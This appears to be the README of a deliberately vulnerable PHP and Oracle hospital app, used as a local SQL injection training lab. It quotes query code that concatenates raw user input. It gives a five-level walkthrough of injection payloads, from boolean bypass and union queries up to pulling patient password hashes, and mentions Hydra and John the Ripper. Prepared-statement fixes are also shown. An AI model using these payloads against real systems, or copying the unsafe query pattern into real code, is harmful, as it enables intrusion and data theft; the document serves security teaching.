


# East-West-Hospital

<div align="center">
  
</div>

<p align="center">
  <strong>Hospital Management Website</strong><br>
  <em>A Vulnareble Website!!!</em>
</p>

<hr>

## Mission briefing

This repo is a deliberately vulnerable hospital management app built with PHP and Oracle Database. It is designed for learning how insecure inputs get turned into dangerous SQL queries during ethical security testing.

> Warning: This project is for local lab use only. Never run it on a public server, and never test it on systems you do not own or are not authorized to test.

<details>
  <summary><strong>🔓 Mission objective</strong></summary>

  The goal is simple: understand how SQL injection happens, how it is triggered, and how a developer can stop it with prepared statements, validation, and secure coding habits.

</details>

<hr>

## Why this project exists

Because every great hacker learns from a broken system before fixing it. This project helps you:

- trace unsafe input into SQL queries
- understand how injection payloads work
- test locally without breaking the real world
- fix the issue using secure coding techniques

This is a learning sandbox, not a production app.

<hr>

## Features

- Patient signup and login
- Email verification flow
- Doctor profiles and department browsing
- Appointment booking flow
- Admin dashboard controls
- Hospital website front-end interface

<hr>

## Tech stack

- PHP
- Oracle Database (OCI8)
- HTML, CSS, and JavaScript
- XAMPP + Apache
- PHPMailer

<hr>

## Youtube Tutorial

Penetration Testing tutorial in Bangla:

[](https://youtu.be/YfaXPGpHM_w?si=g_uCpr-IyhDkeV-a)

## Setup:

### 1. Install the required tools

- XAMPP
- Oracle Database / Oracle XE
- PHP OCI8 extension enabled

### 2. Drop the project into the web root

```bash
git clone https://github.com/your-username/East-West-Hospital.git
```

Or place it here:

```bash
C:/xampp/htdocs/East-West-Hospital
```

### 3. Import the database files

Load the SQL scripts from the `sql` folder:

- `sql/ddl.sql`
- `sql/data.sql`
- `sql/create_user.sql`
- `sql/resetdata.sql`

If needed, update the connection in `connection.php`:

```php
$conn = oci_connect("ewh", "admin", "localhost/XE");
```

### 4. Launch the app

```text
http://localhost/East-West-Hospital/
```

<hr>

## The vulnerable zone

This app intentionally builds SQL using raw user input. That means an attacker can inject extra SQL logic and make the database do things it was never supposed to do.

### Evidence of weakness

```php
$doctor_id = $_GET['doctor'];
$doctorSql = fetchData("select * from doctors join Departments using(dept_id) where doctor_id = {$doctor_id}");
```

```php
if (isset($_GET['department'])) {
    $doctorlist = fetchData("SELECT * FROM Doctors JOIN Departments using (dept_id) WHERE dept_id = {$_GET['department']} order by doctor_id");
}
```

```php
$patient = fetchData("SELECT Patient_id, First_name, Last_name, Passwords FROM Patients WHERE Email = '{$email_sql}'");
```

### Why it breaks

Because the app concatenates strings instead of using parameter binding, the input becomes part of the SQL command itself.

Example clue:

```text
?doctor=1 OR 1=1 --
```

That tiny string can force the query to behave like: “give me everything,” which is the classic SQL injection move.

<hr>

## Quick clue board

These are the mini-lab payloads. They are intentionally simple and designed to reveal the weakness.

```text
' OR '1'='1
" OR "1"="1
1 OR 1=1
1 OR 1=1 --
1 UNION SELECT NULL, NULL, NULL --
admin' --
```

What these clues teach:

- boolean logic bypass
- comment termination with `--`
- union-based query injection
- auth bypass behavior

<hr>

## SQL injection testing: the 5-level challenge

This section is the main lab walkthrough. Each item starts with a small clue. Expand the details tag if you want the full breakdown.

### 1. Level 1: Single quote shock

Clue:

```text
'
```

<details>
  <summary><strong>Open full detail</strong></summary>

  Injecting a single quote into a vulnerable parameter can break the SQL syntax and trigger Oracle database errors.

  Example:

  ```text
  http://localhost/East-West-Hospital/doctor-profile.php?doctor='
  ```

  This often exposes errors such as:

  ```text
  ORA-01756: quoted string not properly terminated
  ```

  The database starts yelling, and the app reveals that it is directly embedding raw input into SQL.

</details>

### 2. Level 2: Boolean bypass

Clue:

```text
' OR 1=1 --
```

<details>
  <summary><strong>Open full detail</strong></summary>

  This payload tricks the query into thinking the condition is always true.

  Example:

  ```text
  http://localhost/East-West-Hospital/doctors.php?department=1 OR 1=1 --
  ```

  Result: the original filter is bypassed and the page may show more rows than it should.

  This is the classic “the condition is always true” move. Very effective. Very noisy. Very educational.

</details>

### 3. Level 3: Error leak mode

Clue:

```sql
' || (SELECT table_name FROM user_tables OFFSET 1 ROW FETCH NEXT 1 ROW ONLY) || '
```

<details>
  <summary><strong>Open full detail</strong></summary>

  This payload forces Oracle to evaluate a subquery and tries to leak table names through application output or error messages.

  It is used to learn whether the application is exposing metadata and whether the query is being interpreted as a dynamic SQL string.

  The key idea is simple: if the DB can execute the payload, it will happily tell you more than it should.

</details>

### 4. Level 4: Union-based chaos

Clue:

```sql
1 UNION SELECT NULL, NULL, NULL --
```

<details>
  <summary><strong>Open full detail</strong></summary>

  Union-based testing checks whether the app can combine the original query with a second query result. The goal is to see whether the application will accept and display extra data.

  In a vulnerable app, this may reveal query structure and help the attacker enumerate columns and table output.

  Translation: “Can I merge my evil query with the app’s query and make the database spill secrets?”

</details>

### 5. Level 5: Data extraction and hash theft

Clue:

```sql
' || (SELECT PASSWORDS FROM PATIENTS WHERE EMAIL = 'tasnimjabir2003@gmail.com') || '
```

<details>
  <summary><strong>Open full detail</strong></summary>

  This type of payload attempts to read sensitive values directly from the database.

  Example sub-steps:

  ```sql
  ' || (SELECT column_name FROM user_tab_columns WHERE table_name = 'PATIENTS' AND column_name LIKE '%PASS%' FETCH FIRST 1 ROW ONLY) || '
  ```

  ```sql
  ' || (SELECT PASSWORDS FROM PATIENTS WHERE EMAIL = 'tasnimjabir2003@gmail.com') || '
  ```

  This reveals the sensitive data flow:

  - enumerate tables
  - find the password field
  - read the hash
  - optionally crack it offline

  This is the stage where the app goes from “annoying” to “seriously compromised.”

</details>

<hr>

## Lab test examples

### Example 1: Doctor profile injection

```text
http://localhost/East-West-Hospital/doctor-profile.php?doctor=1 OR 1=1 --
```

### Example 2: Department bypass

```text
http://localhost/East-West-Hospital/doctors.php?department=1 OR 1=1 --
```

### Example 3: Login bypass attempt

```text
admin' OR '1'='1
```

These are all classic examples of attackers abusing weak SQL logic. In a real application, the damage could be much worse than a weird page result.

<hr>

## Bruteforce and password fun

This project can also be used to understand related security attacks that happen after SQL injection reveals a hash or account flow.

- Hydra: password spraying and brute-force attempts against login pages
- John the Ripper: cracking revealed password hashes offline

These are included only for learning and controlled testing in a local lab environment.

<hr>

## Remediation guidance

The correct fix is to stop building SQL strings by concatenation and start using prepared statements with parameter binding.

### Unsafe pattern

```php
$sql = "SELECT * FROM Doctors WHERE dept_id = {$_GET['department']}";
```

### Safe pattern

```php
$sql = "SELECT * FROM Doctors WHERE dept_id = :dept_id";
$stmt = oci_parse($conn, $sql);
oci_bind_by_name($stmt, ':dept_id', $dept_id);
oci_execute($stmt);
```

Other important fixes:

- never trust user input
- validate type and length
- use parameterized queries everywhere
- hide database errors from users
- restrict database user privileges
- treat all user input as hostile until proven otherwise

<hr>

## Security note for the ethically suspicious

This app is for teaching and legal local testing. Please do not:

- deploy it on public internet hosts
- test it against systems you do not own or have permission to test
- use it for hacking, theft, or malicious activity

The intention is education, not chaos. We prefer “learn, fix, repeat” over “oops, I pwned the wrong server.”

<hr>

## Suggested workflow

```text
1. Start XAMPP and Oracle Database
2. Open the app in a browser
3. Try normal browsing and login
4. Inject a payload from the clue board
5. Compare the result with safe behavior
6. Record your findings
7. Apply the fix and test again
```

<hr>

## Project status

- Status: Educational / intentionally vulnerable for learning
- Recommended environment: Localhost only
- Security level: Deliberately insecure for demo purposes

<hr>

## License

This project is provided for educational purposes. Please respect local laws and ethical security testing practices.

<hr>

## Quick summary

This is a practical example of how SQL injection works in a real PHP + Oracle application. It is valuable for understanding how attackers probe weak inputs and how developers can prevent those issues with secure coding techniques.

If you are learning ethical hacking, bug bounty, or web security, this project is a good sandbox for practicing vulnerability identification and remediation.
